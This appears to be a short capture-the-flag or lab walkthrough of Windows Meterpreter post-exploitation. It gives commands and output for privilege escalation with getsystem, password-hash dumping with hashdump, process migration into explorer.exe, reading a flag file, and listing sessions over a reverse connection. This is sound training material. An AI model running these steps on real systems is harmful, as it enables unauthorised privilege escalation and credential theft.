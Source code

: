 ```bash
help
# Check Windows Mterpreter commands
```

```bash
screenshot
```

```bash
getsystem
	...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

getuid
	Server username: NT AUTHORITY\SYSTEM
```

```bash
hashdump
# Probably not working
```

```bash
show_mount
    Mounts / Drives
    ===============
    Name  Type   Size (Total)  Size (Free)  Mapped to
    ----  ----   ------------  -----------  ---------
    C:\   fixed   29.66 GiB      8.48 GiB   

    Total mounts/drives: 1
```

```bash
ps
migrate 2356
# explorer.exe

sysinfo
# Meterpreter: x64/windows
```

```bash
cd C:\\
cat flag.txt
	f74c8347798f4082daf4b4570dba094a
```

### Some Post Exploitation

```bash
background
sessions
	1 meterpreter x64/windows WIN-OMCNBKR66MN\Administrator @ WIN-OMCNBKR66MN 10.10.24.4:4444 -> 10.2.16.114:49508 (10.2.16.114)
```

- Architecture migrate
